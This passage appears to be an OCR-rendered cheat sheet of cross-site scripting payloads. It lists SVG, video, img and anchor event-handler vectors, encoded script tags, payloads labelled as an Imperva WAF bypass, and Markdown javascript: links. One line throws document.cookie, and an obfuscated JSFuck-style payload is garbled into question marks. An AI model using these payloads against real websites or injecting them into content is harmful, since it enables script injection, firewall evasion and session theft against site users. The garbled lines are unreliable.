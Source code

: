 ```
<svg onload=prompt%26%230000000040document.domain)>

<svg onload=prompt%26%23x000000028;document.domain)>

<svg/onrandom=random onload=confirm(1)>

%2sscript%2ualert()%2s/script%2u
    
<video onnull=null onmouseover=confirm(1)>

<a id=x tabindex=1 onbeforedeactivate=print(`XSS`)></a><input autofocus>

:javascript%3avar{a%3aonerror}%3d{a%3aalert}%3bthrow%2520document.cookie

<img ignored=() src=x onerror=prompt(1)>
```
2. Imperva WAF bypass payload 
```
 <x/onclick=globalThis&lsqb;'\u0070r\u006f'+'mpt']&lt;)>clickme

<a/href="j%0A%0Davascript:{var{3:s,2:h,5:a,0:v,4:n,1:e}='earltv'}[self][0]v+a+e+s(/infected/.source)" />click
 ```

## Random Payload
   - `<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>`
   - ?=”,?=!?+?,?=!?+?,?=?+{},?=?[?++],
?=?[?=?],?=++?+?,?=?[?+?],?[?+=?[?] +(?.?+?)[?]+?[?]+?+?+?[?]+?+?+?[?] +?][?](?[?]+?[?]+?[?]+?+?+”(?)”)()
   - 
## Markdown XSS

```md
[a](javascript:confirm(1))
```

```md
[a](javascript://www.google.com%0Aprompt(1))
```

```md
[a](javascript://%0d%0aconfirm(1))
```

```md
[a](javascript://%0d%0aconfirm(1);com)
```

```md
[a](javascript:window.onerror=confirm;throw%201)
```

```md
[a]: (javascript:prompt(1))
```
